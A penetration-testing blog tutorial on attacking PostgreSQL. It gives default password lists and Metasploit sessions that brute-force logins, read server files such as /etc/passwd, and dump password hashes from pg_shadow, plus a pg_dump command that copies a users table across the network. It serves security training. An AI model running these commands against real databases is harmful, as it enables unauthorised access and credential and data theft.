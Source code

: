 ```yaml
---
layout: post
title:  "Pentesters Guide to PostgreSQL Hacking"
date:   2018-06-25 13:49:33 +0000
tags: [Postgres, Databases, pentest, redteam, blueteam]
---
```

Another week another database… This time the juniors on the Team were crying out about PostgreSQL (or Postgres). Last week it was Oracle and likely next week will be MySQL? But depending on the application and the developers, different preferences or requirements — you can end up testing a different database each and every month of the year.

![](/assets/postgres.png)

## Postgres at a network level
By default Postgres hosts its service on TCP/5432

Any budding pentester of threat hunter, should understand port scanning and service enumeration to confirm the existence and accessibility of Postgres; hence we are not going to cover that topic here.

## Postgres Targetting Accounts
The default username and service-name are both: **postgres**

However, a clever systems administrator can change this!

## Default Passwords
Below is a short abbreviated list of some common Postgres passwords. But you should always have you favourite password dictionary to hand if you require some brute-forcing.
```
postgres : postgres
postgres : password
postgres : admin
admin : admin
admin : password
```

## Postgres & Metasploit
Luckily there are a number of enumeration and exploitation modules in Metasploit to make Postgres hacking so much easier.

### Discovery of Database Credentials
The following Metasploit module can assist in the discovery of credentials by performing a brute force attack:
```
msf > auxiliary/scanner/postgres/postgres_login
msf auxiliary(postgres_login) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf auxiliary(postgres_login) > run
[-]127.0.0.1:5432 - LOGIN FAILED: @template1 (Incorrect...
[-]127.0.0.1:5432 - LOGIN FAILED: tiger@template1 (Incorrect...
[-]127.0.0.1:5432 - LOGIN FAILED: postgres@template1 (Incorrect...
[-]127.0.0.1:5432 - LOGIN FAILED: password@template1 (Incorrect...
[+]127.0.0.1:5432 - LOGIN SUCCESSFUL: postgres:postgres@template1 
```
### Postgres_readfile
The postgres_readfile module, when provided with valid credentials (e.g. superuser account) for a PostgreSQL server, will read and display files of your choosing on the server.
```
msf > use auxiliary/admin/postgres/postgres_readfile 
msf auxiliary(postgres_readfile) > show options
Module options (auxiliary/admin/postgres/postgres_readfile):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD                   no        The password for the specified username. Leave blank for a random password.
   RFILE     /etc/passwd      yes       The remote file
   RHOST                      yes       The target address
   RPORT     5432             yes       The target port
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output
```
In order to configure the module, we set the PASSWORD and RHOST values, set RFILE as the file we wish to read and let the module run.
```
msf auxiliary(postgres_readfile) > set PASSWORD toor
PASSWORD => toor
msf auxiliary(postgres_readfile) > set RFILE /etc/hosts 
RFILE => /etc/hosts
msf auxiliary(postgres_readfile) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf auxiliary(postgres_readfile) > run
Query Text: 'CREATE TEMP TABLE UnprtSRXpcuMpN (INPUT TEXT);
			COPY UnprtSRXpcuMpN FROM '/etc/hosts';
			SELECT * FROM UnprtSRXpcuMpN'
======================================================================================================================================
    input
    -----
    127.0.0.1       localhost
    127.0.1.1       ph33r_the_p05tgr35
   
[*] Auxiliary module execution completed
msf auxiliary(postgres_readfile) >
```

### postgres_sql

The postgres_sql module, when provided with valid credentials for a PostgreSQL server, will perform queries of your choosing and return the results.
```
msf > use auxiliary/admin/postgres/postgres_sql
msf auxiliary(postgres_sql) > show options
Module options (auxiliary/admin/postgres/postgres_sql):
   Name           Current Setting   Required  Description
   ----           ---------------   --------  -----------
   DATABASE       template1         yes       The database to authenticate against
   PASSWORD                         no        The password for the specified username. Leave blank for a random password.
   RETURN_ROWSET  true              no        Set to true to see query result sets
   RHOST                            yes       The target address
   RPORT          5432              yes       The target port
   SQL            select version()  no        The SQL query to execute
   USERNAME       postgres          yes       The username to authenticate as
   VERBOSE        false             no        Enable verbose output
```
The required configuration for this module is minimal as we will just set our PASSWORD and RHOST values, leave the default query to pull the server version, then let it run against our target.
```
msf auxiliary(postgres_sql) > set PASSWORD toor
PASSWORD => toor
msf auxiliary(postgres_sql) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf auxiliary(postgres_sql) > run
Query Text: 'select version()'
==============================
    version
    -------
    PostgreSQL 8.3.8 on i486-pc-linux-gnu, compiled by GCC gcc-4.3.real (Ubuntu 4.3.2-1ubuntu11) 4.3.2
[*] Auxiliary module execution completed
msf auxiliary(postgres_sql) >
```
## Database Access
Kali Linux distributions contain by default the psql utility which allows a user to authenticate with a PostgreSQL database if the username and the password are already known.
```
# psql -h 192.168.100.11 -U postgres
```
![](/assets/postgres_1.png)

## Retrieving Password Hashes
If you have the right levels of privilege (database admin) then you can use this one-liner, to dump all the user hashes in metasploit:
```
msf > auxiliary/scanner/postgres/postgres_hashdump
```
or manually connected to the database:
```
postgres-# SELECT usename, passwd FROM pg_shadow;
```
## Dumping the database
If you require to download the entire database across the network you can try the following from Kali Linux
```
# pg_dump --host=192.168.100.11 --username=postgres --password --dbname=template1 --table='users' -f output_pgdump
```
## Conclusion
You should now have the basic knowledge required for attacking a Postgres database!

There is usually a vulnerable Postgres install on the Metasploitable CTF ISOs. They are easily found on Bit-Torrent trackers as a legal download. Or download the Open Source package, and install it yourself in a VM, docker container, or your own system.

Remember, to only practise Postgres attacks on your own legally owned systems!

## Disclaimer
Netscylla or its staff cannot be held responsible for any abuse relating from this blog post. This post is to raise awareness in the possible design and implementation flaws from system and database administrators that may or may not include security weaknesses, which may compromise your enterprise database. **REMEMBER: It is illegal to attempt unauthorised access on any system you do not personally own, unless you have explicit permission in writing from the system owner!**



